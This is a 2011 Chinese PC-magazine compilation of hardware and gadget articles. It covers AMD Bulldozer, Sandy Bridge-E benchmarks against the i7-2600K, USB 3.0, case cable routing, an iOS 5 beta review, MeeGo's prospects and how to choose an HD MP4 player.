面对Intel频繁更新构架和工艺步步紧逼的战略，AMD提出了高低搭配的应对方式，其中面对低端市场的APU早已正式上市，而主攻高性能市场的“推土机(Bulldozer)”则时至今日才缓缓驶来。

### 多快好省的推土机设计思想

与仓促应战的K10/K10.5架构不同，K15家族的推土机并非是在已有架构上的小幅改进与更新，而是从根本上改变了处理器底层的架构设计理念，将处理器进行了模块化分割，从而希望能够创造出更为灵活高效的整体架构。AMD雄心勃勃的宣称，与K10系列相比，基于Bulldozer架构的处理器能够在每瓦特性能上大幅提升30%~100%，成为“有史以来最高性能的单线程和多线程计算核心”。同样是模块化理念，Bulldozer与Intel在Nehalem上就已实现的模块化设计截然不同，后者的“模块”是在处理器芯片内部进行功能模块分割，从而能够简单的扩充或削减计算内核的数量。而Bulldozer则是对计算内核架构本身进行模块化设计，通过多模块的组合创造出具有更好适应性与更加效率的计算内核。这样一来八核心的实现估计又会让Intel苦恼一段时间。模块化设计理论上能够在最小的晶体管规模提升下带来最大的计算性能增幅，相比于AMD传统的CMP (Chip MultiProcessors, 增加核心数量)能够大幅缩减冗余电路，降低芯片制造成本和运行功耗，而与Intel主导的SMT (Simultaneous Multithreading, 同步多线程，即Hyper-Threading, 超线程)技术相比，则在芯片规模增幅想接近的情况下，能够实现更大的性能提升。如此设计出于AMD对未来计算市场将由多线程应用主导的判断，AMD将该设计称之为“CMT (Cluster-Based Multi-Threading, 簇式多线程)”，放弃以往追求单线程性能的路线，转而更为强调多线程并行的整体效能，设计思路的根本变化也成为了Bulldozer架构的最显著特征。此外，Bulldozer还将指令集的支持规模大幅扩容，不仅将Sandy Bridge所包含的SSSE3/SSE4.1/SSE4.2、AVX照单全收，还独家支持FMA4乘加指令、XOP扩展操作指令等。而且Bulldozer还将数据总线升级到了HyperTransport 3.1， 32Bit下带宽提升至51.2GB/s。而32nm制造工艺以及Turbo Core 2.0使得功耗的良好控制有了前提。

### 测试结果尚未理想

众多新理念、新技术的融入令AMD对Bulldozer信心满满，甚至祭出了已经消失多年的顶级品牌FX作为其最终产品的品牌。但从目前来看，AMD对该系列产品的定价尚且比较理性，最高端的FX-8150官方定价仅为245美元，甚至远低于Core i7-2600K的报价。从市场角度来说，如此“田忌赛马”般的策略显然好处多多，顶级产品主流价格无疑是宣传性价比的王牌口号，从而可以极大地刺激主流消费者的购买欲望。只是从目前了解的测试性能来看，即使是Super Pi这样的纯整数运算，Bulldozer架构的FX-8150也仅能在多线程模式下相比Core i5-2500K拥有一定的领先优势，而在游戏、渲染、文件压缩等实际应用中难以拉开差距。不过从“一分钱一份货”的角度来说这样的性能与价格无可厚非。虽然依然无法超越竞争对手，不过实际上第一代Bulldozer只保持了较低的主频，未来产品如何还不能下定论，至少在现在的产品上我们看到了极佳的超频能力。

### 真正意义：将影响未来全线AMD产品

Bulldozer对AMD来说是多年来设计构架的大变，虽然首款产品性能亮点不多，但更重要的意义却是提供了一个全新的平台，它的灵活性和更丰富的扩展性将会让AMD工程师不再羡慕Intel的同行，而AMD旗下的APU产品和高端的服务器CPU未来都会基于这个构架。所以说Bulldozer的影响应该是延伸到多年以后，并且扩展到多个产品线。近几年来由于构架上一直没有大的更新AMD可谓处处被动，Bulldozer的测试性能虽然没能让人眼前大亮，但却给AMD带来了新的希望。可以预见此构架的真正威力将会在不久的未来充分体现，而且不仅限于性能的提升，还与AMD产品布局的特点相结合，呈现出与竞争对手差异化的局面。(文/Air Force)

## 顶级的对决 Sandy Bridge-E i7-3960X处理器比拼i7-2600K实测

相比对手顶级产品的一再跳票，Sandy Bridge-E的发布可谓顺风顺水，作为Intel TICK-TOCK战略中的高端产品，它的实际表现究竟表现如何，让我们用数据去说话。

虽然今年英特尔发布了最新的Sandy-Bridge平台，在主流中高端市场上呼风唤雨，但是在旗舰级产品上，上一代的X58平台却依然傲视群雄。从英特尔的路线图来看，Sandy Bridge平台的产品充其量只能算是高端产品，只有英特尔的“X系列”芯片组配上其Extreme系列处理器才能称得上旗舰级产品。在经历了漫长的2年之后，英特尔再次为强势推出了X79平台以及Sandy Bridge-E处理器，意在更新旗舰处理器的性能排行榜。

我们本次测试的Core i7-3960X Extreme Edition（以下简称Core i7-3960X）是Sandy Bridge-E中最高端的型号，采用六核十二线程设计，支持四通道DDR3-1600内存，TDP均为130W，LGA 2011接口的新接口让它必须需搭配X79芯片主板使用。这样的参数看上去就杀气逼人，称其为地球最强桌面CPU并不为过。

### Sandy Bridge-E处理器与X79主板的特性

由于定位的原因，Sandy Bridge-E取消了Sandy Bridge的核芯显卡部分及其中解码器及输出电路，也就没有了集成显卡。不过其核心内提供了更多的核心和更大的L3缓存并采用了跟Sandy Bridge一样的环形联通架构，这有效地缩短了数据延迟，提升了处理器的计算效率，并提高了L3缓存的利用率，此外Sandy Bridge-E处理器提供了40个PCI Express 3.0通道，支持2x16+8模式、1x16+3x8模式和1x16+2x8+2x4模式，这让我们在组建多显卡时会有更多选择。不过由于这套平台支持4通道内存，内存条分布在CPU的两侧，会让一些散热器无法使用，购买时一定要弄清楚这一点。

### i7-3960X比拼i7-2600K

本次测试使用LGA 1155接口的Sandy Bridge顶级处理器Core i7-2600K作为对比，显示卡我们则使用了公版Geforce GTX 580。测试结果我们从以下几方面进行分析。首先是大家通常所关心的单核心效能，从对比测试中注重单核心效能的几个测试项目中我们可以得出，单独的架构微调没有带来性能上的明显提升，如Super π 1M和8M的成绩表现几乎相同。在对处理器多线程运算支持较好的软件测试成绩方面，Core i7-3960X多出2个核心的优势就体现了出来，在科学运算、多媒体处理等测试项目中，6核心的Core i7-3960X均有50%左右的性能增幅。而在内存带宽方面，Core i7-3960X得益于4通道内存的优势，达到了近乎Core i7-2600K两倍的性能。在游戏性能方面，Core i7-3960X以微小的优势获胜，在架构、频率基本相同的情况下，多出的核心对游戏帧数的提升不明显。总结：对于售价990美元的Core i7-3960X来说，它主要面向两种人群，一种是CPU性能有瓶颈的用户，如科学计算工作站、多媒体制作者等密集型运算用户，更多的物理核心和更大的缓存带来的更高的多线程性能一直是这类用户所渴求的。对于发烧级玩家来说，新一代旗舰产品这个称呼已经给了他们足够的理由去购买这个产品，无需更多的解释。而对于普通用户，更高的多线程能力并不能在日常应用和游戏性能带来明显的提升，而组建Sandy Bridge-E平台所需要的CPU、内存、主板等价格又相当的昂贵，意义不大。(文/ICE)

| 测试软件 | 测试项目 | Core i7-3960X | Core i7-2600K |
|----------|----------|---------------|---------------|
| Super π | 1M | 9.844 | 10.654 |
| Super π | 8M | 107.204 | 119.885 |
| wPrime | 32M | 9.999 | 11.092 |
| wPrime | 1024M | 315.495 | 347.629 |
| WinRAR | - | 4549 | 3987 |
| Friz Chess | - | 14175 | 13308 |
| x264 Benchmark | PASS1 | 179.85 | 149.57 |
| x264 Benchmark | PASS2 | 55.19 | 36.93 |
| MediaCoder 2011 | - | 229 | 270 |
| SiSoftware Sandra | 算数处理器 | Whetstone iSSE3 | 130.86 | 84.63 |
| SiSoftware Sandra | 算数处理器 | Dhrystone iSSE4.2 | 209.35 | 136.89 |
| SiSoftware Sandra | 多媒体处理器 | 整数 x32 iAVX | 323.26 | 211.38 |
| SiSoftware Sandra | 多媒体处理器 | 浮点数 x16 iAVX | 442.69 | 287.8 |
| SiSoftware Sandra | 加密解密性能 | AES256-ECB iAES | 12.86 | 6.78 |
| SiSoftware Sandra | 加密解密性能 | SHA256 iAVX | 1.6 | 1 |
| SiSoftware Sandra | 内存带宽 | 缓存/内存带宽 | 204.26 | 109.5 |
| 3DMark Vantage | Performance | 3DMark SCORE | 28402 | 25495 |
| 3DMark Vantage | Performance | CPU SCORE | 36754 | 24246 |
| 3DMark Vantage | Extreme | 3DMark SCORE | 14203 | 13856 |
| 3DMark Vantage | Extreme | CPU SCORE | 37260 | 24276 |
| 异形大战铁血战士 | - | 73.03 | 73.77 |
| 孤岛危机Warhead | 0AA | 54.54 | 53.24 |
| 孤岛危机Warhead | 4AA | 46.81 | 45.71 |

## 移动存储久盼之福——USB 3.0

USB诞生已长达十余年之久，早已成为我们熟悉和不可缺少的一个接口。但是占据着我们的电脑和设备的USB 2.0已经发布8年多了，其传输速率早就不能满足我们的需求，特别是移动存储设备。这更让我们期盼增速达10倍的USB 3.0的到来。目前USB 3.0现状如何？我们使用它需要哪些准备工作？随着USB 3.0主板和设备的逐渐增多，我们有必要再来探讨一下。

针对移动设备功耗越来越高的趋势，USB 3.0还对供电需求进行了增强。其电源负载增加至150mA，配置设备可以提高到900mA，相比USB 2.0提升了约50%。这意味着以往移动硬盘经常出现的因USB接口供电达不到硬盘启动电流而造成的无法正确识别的现象，将不复出现。

USB 3.0对USB 2.0接口保持了向下兼容的特性，但仅限于3种接口中的A型接口（常见的大口）。目前在主板或笔记本电脑上多采用蓝色标注USB 3.0以区别USB 2.0接口。

BIOS等环境中使用，但如果你把设备接到USB 3.0接口上却不能在这些环境中使用。未来应该能够通过加装兼容电路等方式解决，但已有的产品就比较遗憾了。

### 新规范一波三折

作为未来桌面的通用接口标准，USB 3.0的每一步走向都会导致未来相关市场的利益重新划分，因此在其标准制定方面也就必然经历长久的“扯皮”。在一连串牵涉到Intel、AMD、NVIDIA和VIA等众多芯片厂商的争执之后，虽然7年前就开始制定方案，但直到2008年USB 3.0标准的制定才开始驶入正轨。目前Intel已经公开xHCI的1.0正式版，并有部分芯片厂商已经开发出基于该规范的独立USB 3.0控制芯片，AMD为其APU产品量身定做的A75/A70M FCH芯片组成为全球首款通过USB-IF组织官方认证的USB 3.0原生芯片组。

### USB 3.0 性能特点

USB 3.0基于全双工（2.0为半双工）数据传输协议，可以同步全速的进行读写操作，因此传输速度有了大幅提升。其理论传输速率高达5Gb/S（即625MB/S），实际数据传输速率也将高达3.2Gb/S（即400MB/S），相比USB 2.0时代有了将近10倍的扩增。现在流行的高清影片动辄10GB以上，用USB 2.0传输简直就是个痛苦的过程，换成USB 3.0之后将会大大缓解。

### 你需要准备这些

但作为新生事物，USB 3.0的整体应用环境尚不成熟，如何选择适合自己的USB 3.0设备，成为困扰不少用户的难题。

首先来看主板。由于Intel要在7系列主板中才会加入原生USB 3.0支持，因此目前常见的解决方案依然是主板上附加独立的USB 3.0控制芯片以供用户使用。以华硕为代表的主板厂商早在P55芯片组的产品中就已经开始通过此方法提供了USB 3.0接口。但早期的主板则只能选择通过第三方扩展卡的方式来获得USB 3.0接口。但AMD的A75/A70M FCH芯片组已经提供原生支持。

而设备方面，必须保证你的移动存储设备也是USB 3.0的才行。目前已经有希捷、西数和东芝等多家推出了支持USB 3.0的移动硬盘，但U盘还比较少见。当然，目前这些移动硬盘价格都要贵一些，1TB的产品要比USB 2.0的起码贵100元。

操作系统方面，目前微软以及Linux都已经公开表示支持USB 3.0，但苹果还没有明确表态。但目前已有的产品使用起来却并不如USB 2.0时代那么方便，例如USB 2.0接口的设备可以在PE系统、EFI

### USB 3.0 的对手们

USB 2.0的一统江湖，令USB 3.0的广阔前景仿佛顺利成章。但新的时代也有了不少新的竞争技术，注定USB 3.0的普及难言坦途。

e-SATA是较早出现的存储设备高速接口。然而尽管e-SATA传输速率高达3Gb/S，其缺点同样明显：首先其本身专为存储设备的高速传输所设计，应用场合适用明显。其次e-SATA本身无供电能力，往往需要单独连接供电线路，较为繁琐。因此一直以来e-SATA虽然凭借较为廉价的实现成本而在PC设备上得到了普及，但在应用时却总是“英雄气短”。

相比之下，Thunderbolt接口显然目标更为远大，对USB 3.0也更具威胁。目前Thunderbolt已经能够实现10Gb/S的超高传输速率，理论上限更高至50Gb/S。同时该接口基于PCI-Express数据总线，最多能够将7台设备连接在一起，不光具有供电功能，还能作为视频接口。功能可谓极其强大，但目前仅有苹果一家支持，且没有什么设备可用。

总结：随着USB 3.0设备的普及率大幅提升，目前主流平台的应用环境已经逐渐成熟。而在实际应用中无论在数据传输还是在供电性能方面，均能够给用户的应用体验带来明显的改善。考虑到目前USB 3.0接口的设备在价格方面与传统的USB 2.0设备已经越来越近，对移动设备传输速度有需求的用户现在就可以考虑提前买入USB 3.0时代。(文/Air Force)

## 远离杂乱机箱 普通机箱也玩背板布线

说到机箱这个产品，目前最热的应莫过于背板走线了。卖场中采购机箱的消费者大部分第一句都会问：这机箱可以背板走线吗？其实大家走进了一个误区，不一定非要标注支持背板走线的机箱才可以实现背板走线。普通机箱通过精心的布线设计也可以达到背板走线机箱的整齐程度。

### 背板走线的优点

采用背板走线的方式可以令机箱内部看起来更整洁，拆装或升级配件时更方便，最重要的是可以让机箱内部风道更加畅顺。有了合理的风道才可以做到最小噪音换来最大的散热效果。经测试，在同样环境下合理使用风道可降低3-5度的机箱内部温度。这对于硬件的健康是非常有必要的。

### 玩背线要注意哪些

如果您是新攒机用户，并且机箱预算在300元以上，笔者建议您直接购买一些大厂可支持背板走线的机箱。在选购时需注意机箱左侧板（主板后面的侧板）与机箱外侧板是否有足够的空间来走线。这个非常重要。但有些DIY玩家玩了很多年，手里也有一些机箱，由于当购买时还没有背板走线这个技术，那么您一定要仔细阅读本篇文章。我们将在文章中为您介绍普通机箱如何实现背部走线与合理走线，从而发挥最佳的性能。

### 普通机箱也玩走背线

通过左图我们可以看到这不是一款专门为背板走线所设计的机箱，但机箱内部空间还是非常充裕的，并且在主板上CPU的背板位置有开孔，只要利用机箱的孔位，这样的机箱背板走线就非常好实现。

首先将前置重启、开机、硬盘灯、电源灯、USB接线通过光驱位附件的空当穿到机箱背板部分。将穿到背板的线材进行整理后穿过侧板CPU背板拆卸位的预留孔。

通过这个孔位将线材穿到机箱内部达到主板安装位。在主板安装位进行整理后将这些线材平铺到主板与机箱安装板之间，这里是利用主板与机箱安装位之间的空隙。如果严谨一点可以用一些电工胶布将这些线材粘贴到机箱主板底部面对的钢板上，这样可以起到绝缘作用，同时也使安装主板变得更加容易。

不过这里要注意，要将线材平铺开并注意主板背板上的电路与突起物合理的避开。
刚才的前置面板接线已经巧妙的走到主板背后了，这步只需要将线材连接到主板上就可以了。但安装过程要注意，最好先插好后再安装主板，不然下置电源会挡住主板上的安装接口。
这里就要各位看官多加思考一下了，因为每个机箱的特性不同，安装与走线也是不相同的。但大体可以参考文章中的走线方式。

通过上面的介绍可以清晰的看到线材巧妙的通过背板上的CPU拆装孔位走到了主板的背后。这步也是要将线材平铺开，不要集中成一股，不然影响机箱外侧板的安装。
24PIN的主板供电笔者是通过硬盘安装架后面的空隙走到主板安装位的。这步比较简单就不过多介绍了。

通过以上简单的介绍，各位是否了解如何利用普通机箱实现背板走线了呢？其实很简单，只要在操作过程中多加实践，合理的利用机箱上面的空隙，寻找最合适的走线方法，就可实现普通机箱的背部走线。有些读者也许会有这样的疑问，前置面板的线路走在主板下面安全吗？时间久了会不会使主板短路？其实不会的，只要是质量尚可的正品机箱线路都是非常结实耐用的，而且主板安装到机箱上与安装背板还是有一定距离的，这个距离足够我们用来走线了，如果您还不放心可以用电工胶布将线材固定到机箱上，这样可以起到绝缘的作用。(文/Jason)

## 再次迎来世界瞩目 苹果系统升级iOS5

4年前，苹果发布了第一款iPhone让手机有了革命性的变化，而iPad创造了全新的硬件类别。让这些产品有如此做为应归功于iOS。北京时间6月6日凌晨1点，受世界瞩目的WWDC（苹果电脑全球开发者大会）准时召开，新一代iOS系统携重磅信息席卷而来。

iOS5作为苹果未来一年的移动平台系统，将面对WP7、Android等众多智能操作系统的围剿。提前发布的iOS5测试版里，有什么样的功能，能够让苹果自信在竞争日趋激烈的随身数码市场继续笑傲群雄呢？笔者迫不及待下载beta版进行测试。

## 旧瓶子装新酒 iPad2 玩 iOS5

可以发现，苹果首次修改了选项开关的外观，更圆润的图标，笔者认为更漂亮了。在设置里，iOS5相对iOS4增加了iCloud、Twitter、短信三个选项，这都是iOS5新推出的三个功能。而原本iOS4中的iPod名称改为音乐，彻底与视频和照片一个等级。也意味着苹果已经逐渐放弃曾经辉煌的iPod时代。

在通用里，iOS5相对iOS4增加了软件更新、用量、iTunes Sync三个选项，电池百分比菜单被移到“用量”菜单内，这是一个比较奇怪的修改。按道理来说，电池百分比的设置与“用量”菜单没有什么逻辑上的意义，苹果将这一功能挪到下级菜单里显得没有必要。在关于本机中，iOS5增加了名称选项，随时可以在iPad上自行修改机器名称。这与iOS5更新注重个性化的思路一致。至于诊断与用量，这是测试版的功能，在正式版中估计会取消。

在“用量”中，iOS5详细列明了每个程序额外使用的数据空间，还包含iCloud的容量管理。在程序容量管理中，可以单独删除每个应用程序的文稿和数据。这一功能的增加笔者认为非常实用，特别是iBooks等应用，经常会出现部分无用数据隐藏起来，额外占用机器空间的情况。有了这一单独删除的功能，对于16GB等小容量机型来说，能够更好的使用设备，同时也减少iOS长期使用后，机器变慢或不稳定的情况。

iTunes Sync这一功能是了解何时与iTunes备份的数据，但它目前功能比较简单，只限于备份时间记录和即时备份选项。相信在未来正式版中，会提供与iCloud云服务融合的更多功能。

> 小提示：
软件更新就是传说中的OTA，通过无线方式自动更新系统固件版本。不需要再通过iTunes来更新iOS固件了，这也是WWDC大会上，苹果得意地剪掉iOS设备数据线的由来。不过iOS固件动辄数百兆的数据包大小，对于国内用户的网络来说是个非常大的考验。而且笔者在测试时，经常会出现无法连接服务器的现象。在iOS5正式发布之后，面对庞大的iOS用户基数，苹果的服务器如何应对升级数据需求，暂且让我们拭目以待。

## 苹果的云来了

iCloud云服务，是iOS5所有功能的重中之重。WWDC发布会上，这也是乔布斯介绍的唯一功能，可想而知苹果对它有多重视。苹果在未发布iCloud服务之前，就已经与四大音乐唱片公司签下协议，取得正版音乐的授权。苹果又花费巨资，在美国北卡罗莱纳州兴建一个全新的数据中心，专门为iCloud服务。登录iCloud只要输入Apple ID，当验证完成后，iCloud正式可以使用。在默认的设置里，邮件和备忘录以及照片流是关闭的，这也是为了减少默认情况下用户的储存空间不够用的情况。点击储存与备份菜单，就可以选择进行第一次备份。

iCloud在刚开始备份时，经过大概两分钟左右的计算，得出只需1分钟左右即可备份完成，这不由笔者对iCloud的功能有点惊喜。可是五分钟后，这个所谓一分钟完成根本没有任何动静，笔者退出菜单重新进入时，惊讶地发现这一时间上升到了48小时！而这时笔者注意到，iCloud的可用空间立即降到2.8GB，对于音乐和视频等内容基本为零的情况下，这2.2GB的使用空间从何说起呢？当笔者点击管理储存容量里，吃惊地发现，在选项中没有出现的应用程序资料与文件，竟然占据了iCloud备份的绝大多数空间。

苹果在备份文档等个人文件时，居然没有提供单独的选项来关闭所有应用程序的数据备份，只能在管理备份选项中，一个一个单独关闭应用程序备份选项，这非常影响iCloud的使用。希望苹果能够在正式发布iOS5之前，增加iCloud备份时对应用程序数据的筛选选项。

不过这些新功能的变化，让我们看到苹果在未来的布局。通过iCloud云战略，绑定所有用户的数据。而Message与推特，想把用户的社交圈套在iOS平台之中。再通过细节的不断改进，苹果iOS5相信能在未来一年内，给我们继续带来世界上最好用的智能手机平台。

## 苹果自己的“飞信”诞生——iMessage

iMessage是继iOS 4的FaceTime之后苹果推出的又一项网络通讯技术。FaceTime是免费视频通话，iMessage是免费短信和彩信。在设置里打开iMessage后，给iOS用户发送短信时就可以走互联网而不是电信运营商那条线了。界面、用法和短信一样，可以发送文字、图片、音乐（这个没找到）还有送达回执。它和短信的区别就是气泡和发送按钮颜色：短信是绿色，iMessage是蓝色；另外就是看顶部的“New iMessage”那行字。

总体测试来说，iMessage信息发送的速度很快。笔者在发送大小为1M左右的视频时，大概用时不到2秒钟，几乎是瞬间走完进度。而且视频和图片都可以离线发送，当对方上线时会通过推送通知发送到对方iMessage设备。如果对方在线，你在输入信息时，如果对方打开iMessage服务，可以同步看到你正在输入的内容。

其实iMessage之前有很多类似的通过互联网发送短信的技术了，最著名的应该是黑莓手机上的BlackBerry Messenger，苹果上的kik等第三方App也能实现。但这种第三方应用毕竟只能在小众中普及，这下iOS 5系统内置，方便又省钱。关键是iMessage就和iOS的短信功能整合在一起，操作、界面什么的没有门槛……电信运营商向互联网提供商的这个衰退过程，苹果再次踹了一脚。

> 小提示：
iMessage支持iPhone、iPad、iPod touch，而且不管双方距离多远，发文字和图片都和FaceTime一样：免费（实在不明白，联想一下PC上的“飞信”）。

## 小细节看出大野心

在声音菜单中，iOS5增加了一个铃声和提醒单独控制功能，可以让铃声和提醒不再和系统音量相关。这样不会因为调整了系统音量而错过来电和提醒，这对于iPhone来说比较实用。对于Touch和iPad用户来说，这一功能基本没有什么用处。不过多一种选择，总是好的。不过可能是Apple ID区域的问题，笔者并没有在声音中发现此前新闻中报道的铃声商城选项，也就无法查看这一功能。另外，由于FaceTime和iMessage功能的加入，即使是Wifi版的iPad，都有电话、短信的铃声设置，这也侧面暴露苹果在这两个功能上的野心。

测试中，可能由于测试版的缘故笔者深切地感到iOS5的不稳定性，不但程序经常卡死、退出，还有程序与iOS5存在兼容性问题。笔者在短短一天时间，还遇到两次iOS5锁屏后无法唤醒的故障，只能使用强制重启才解决。苹果决定推迟iPhone5发布到秋天，在笔者看来，完全是为了给iOS5一段缓冲时间，让iOS5变得更稳定，更完善。让我们一起期待“5”的飞跃吧！

## 迪士尼创意USB耳朵音箱

这是一款迪士尼出品的创意USB电脑音箱，可以把电脑显示器装扮成米老鼠耳朵。本音箱是耳朵造型的，由电脑USB接口取电，标准3.5mm耳机插头。安装简便，直接夹在电脑液晶显示器上。值得说明的是，购买本音箱后可以安装其Windows主题，只要连接好电脑，联网状态下按一下程序里的Driver Link，会自动带你访问产品官网下载页面。可下载主题包。主题包含有史迪奇、米奇或外星人脸部特写的电脑桌面、屏保、以及鼠标主题和卡通音效。



## 动物红酒瓶塞

虽说大多数时候动物的掺和会给人类世界带来点麻烦，但是这些由荷兰设计师Charlotte van der Horst带来的LOT LAB动物红酒瓶盖们却能准确地一头栽进红酒瓶。由于红酒太美味，引得这些野生动物纷纷往下栽，根本无法自拔！红酒是需要呼吸的，所以你能看到瓶塞下面有一个细管，而另一头，竟然是动物的菊花……Charlotte van der Horst，你太幽默了。本品为荷兰设计师制作，素材取自中国（动物）和德国（瓶塞）。


## 粗、细、双线能画3种线条的记号笔Beetle Tip

以产品新颖别致而著称于世界的日本文具制造商KOKUYO设计出仿照独角仙犄角的结构，开发了这支非常巧妙的记号笔（Beetle Tip），它独特的分叉笔头能画出粗线、细线、双线等3种不同的线条，使用起来相当方便。这样我们在把某句话框选的时候就很方便了。


## MeeGo濒死 or 重生

诺基亚发布了旗下首款MeeGo系统手机诺基亚N9。但就是这款堪称旗舰的高端智能手机，为诺基亚带来了满天的议论。MeeGo到底在诺基亚手机发展史上扮演着怎样的角色？MeeGo还有没有未来？

## MeeGo已死

死亡时间2011年6月21日。MeeGo的出生说来简单，英特尔和诺基亚要合力专注于一个共同的平台，携手谋求更大的事业，而不是单独费尽心神去烹调两份的羹汤。其实两大巨头确实有很多共同点：同样是基于Linux；同样都是主攻移动设备；同样的致力于提供杰出丰富的消费者互联网体验。此外，IT界有部分观点认为Linux系统Moblin和MeeMo之前发展速度都让巨头们有些失望，缺乏手机厂商的支持，NOKIA和Intel急待转身求变，于是MeeGo应运而生。

时间2011年6月21日，诺基亚在新加坡举办的Nokia Connection上，发布了旗下首款MeeGo系统手机诺基亚N9。但同时在诺基亚CEO史蒂芬·埃洛普表示未来诺基亚将放弃MeeGo，支持Windows Phone之后，业内一片哗然。史蒂芬·埃洛普的一句话将诺基亚N9推到了一个非常尴尬的位置，同时也彻底宣判了MeeGo的死刑。史蒂芬·埃洛普对诺基亚N9的漠然充分表明其立场是站在Windows Phone7这一边的。他将诺基亚改变不利局势的宝也全部押在了Windows Phone 7上。搭载MeeGo操作系统的N9仿佛只是一款象征性的年中新品，抑或是为了给昔日合作伙伴英特尔一个交代。MeeGo对于诺基亚来说已经成为浮云，这个NOKIA和Intel的“孩子”刚一出生就已经宣告死亡了。

> 小提示：
MeeGo是英特尔和诺基亚联合研发的面向未来基于Linux架构的开源的跨平台应用操作系统，也是英特尔和诺基亚主推的移动操作系统平台。MeeGo操作系统可以安装在上网本、智能手机、平板电脑、车载设备上，通过蓝牙和WIFI实现各个移动设备之间的数据信息互联互通，无缝衔接各种应用平台。MeeGo的开源有点类似于Android和iOS手机操作系统，所有开发者都可以自由为其编写程序，但MeeGo更强调各种设备之间跨平台的无缝兼容性。

## MeeGo死亡原因

一般人言及操作系统大战，必会为疆土日渐流失的昔日王者塞班的坎坷命运而感慨。但事实上，在智能手机操作系统大战中，最悲情的是MeeGo。相比后来居上的安卓，塞班的处境诚然悲凉，但MeeGo则更显落寞，宝刀尚未出鞘，就众叛亲离，只剩孤零零的Intel始终不渝。但Intel终究是个硬件厂商，在便携终端操作系统领域未必能有什么出人意表的建树，时逢NOKIA流年不利，此潜在死因也。

这其中NOKIA的时间观念实在有问题。MeeGo方案提出之初若是趁热打铁一定会有好的气象，起码不会像今天这般姥姥不疼舅舅不爱。而现今的智能手机系统中iOS与Android已经走得很远，用户早已先入为主，MeeGo此时想要一鸣惊人难度太大，而且就算做得很好在用户看来多是效仿前两者罢了。试问，同样优秀的手机我为什么要买个不熟悉且又不深浅的呢。再者，软件壁垒难以逾越。我们说一个系统的成功与否主要取决于他里面的软件数量，大多数软件厂商都不支持这个平台你想死都难。MeeGo若是继续走NOKIA的老模式就太难取悦众厂商了，当然还有更致命的因素存在——专利费。NOKIA推出的手机在专利项目要支付比对手多得多的费用，原因也是推出时间太晚。

目前触屏技术被牢牢掌握在苹果手中，但凡哪一款智能手机的推出都要向苹果交钱，更不要说你在UI、核心代码上面砸的钱了。这使得本就没有什么优势的NOKIA手机成本“蹭蹭”地涨，MeeGo也随之前景黯淡。

## 起死回生 不是不可能

其实，MeeGo还是有希望的。我们纵观成功智能系统的案例，苹果的iPhone，Google的NEXUS，NOKIA的众多代旗舰，亲父子成功概率要大得多。做硬件又做软件的好处是可以深刻挖掘自己机器的特点，使得软件硬件配合得当，以发挥手机最大优势。君不见摩托罗拉，魅族都爱玩个深度定制。如是此次推出的N9以低廉的价格（先砸钱吧），流畅的手感以及极低的软件门槛给用户好印象给厂商以信心，MeeGo也不应该是昙花一现。

再看看上边两位巨头的缺点，iOS被牢牢地把控在苹果手里，开源没戏；Android虽然开源，但机型太多，全兼容类软件不好开发让Google也很苦恼。此时NOKIA如能找到强有力的合作伙伴，一鸣惊人不是不可能，一切结果如何，生或死？我们拭目以待。

## 高清视听过暑假 影音MP4如何买

暑假来临，莘莘学子终于可以暂时放下繁重的学业来度过悠扬的假期了。此期间影视音乐已成为生活的重要组成部分，清晰流畅的影视画面与高品质的音质效果必能带来惬意的享受。那么，选购一款性能强劲的MP4就成了重要任务。

自2009年MP4开始普及720P，标志着掌上播放器进入高清时代。2010年MP4可以解码1080P全高清视频。这些高清在MP4较小的屏幕上播放到底效果如何呢？大容量视频和MP4的“小”闪存之间的矛盾如何解决？所谓的高清MP4到底是不是噱头？

## 高清MP4未必高清

前几天笔者的好友正好在网上订购了一台MP4，据他所言性能不俗。一看MP4的商品介绍，容量8GB，用醒目红字注明“编码1080P高清视频直播”，支持OTG直连，各方面都不错，而且价格不贵，才299块，就马上下单买了。

货很快就到了，买MP4主要是看视频，本文主要解说视频方面，先看看机子里面预置的图片，感觉比较清晰，再听听歌曲，感觉也不错，哈哈。但是，当接入高清DVD文件播放时，发觉和在电脑上播放效果相差甚远，并不是什么高清效果，而是有些朦朦胧胧，不是说“编码1080P高清视频直播”吗，为什么会这样？原来他被忽悠了，这是我们常犯的一个概念错误。“编码1080P高清视频直播”说的是MP4的解码能力，并非屏幕显示效果。屏幕显示效果的好坏并不取决于用红字醒目的解码能力（高清视频流畅直播），而是取决于屏幕本身分辨率！让我们看看这款MP4的屏幕分辨率是多少吧，经过仔细查看宣传资料，终于在不醒目的小字中看到了，原来，这款机子屏幕分辨率只有区区“480×272”，分辨率这样低，难怪看高清视频朦朦胧胧的。

经过仔细查看终于找到了症结所在，其实所谓MP4高清，有两层含义，一个是解码能力，能不能解码高清码；一个是屏幕显示能力，即实际分辨率。屏幕太次，解码能力再好也是白搭！用一个通俗的比喻，屏幕分辨率是一个出水口，而解码芯片是水库，出水口太小，水库再大，你也得不到多少水。因为高分辨率的屏幕和低分辨率的屏幕价格相差很大，所以一般商家顾左右而不言分辨率，我们看看下面这款同品牌的MP4，各方面看起来都和上面那一款差不多，怎么就贵了一百块呢？

看看它的说明文字，知道它的分辨率是“800×480”，比上面那一款分辨率高了不少，差价主要就在这儿！试用这款MP4来看高清视频，就比前一款机要细腻多了，看起来也舒服多了，这一款明显要比前一款性价比高，如果你不想看视频让眼睛受罪的话。

| 类型 | 分辨率 | 一般称呼 |
| :--- | :--- | :--- |
| 720P | 1280×720 | 高清（HD） |
| 1080P | 1920×1080 | 全高清（Full HD） |

## 解码能力决定播放和输出

MP4的关键参数，除了屏幕分辨率外，主要有解码能力和格式支持。上面的“编码1080P高清视频直播”，就是指它的解码能力很强（取决于主控芯片），能够解码1080P的视频。解码能力强的好处就是MP4能够直接流畅播放各种高低码率的文件，不必转来转去。最大好处就在于，如果MP4输出到HDTV，就可以直接在高清电视上欣赏高清视频，是不是很爽？高清播放机就可以歇息了。现在MP4最强的解码能力就是全高清，即1080P。所以，解码能力主要决定了播放和输出，很重要。

## 高清输出与 OTG 功能让 MP4 增值

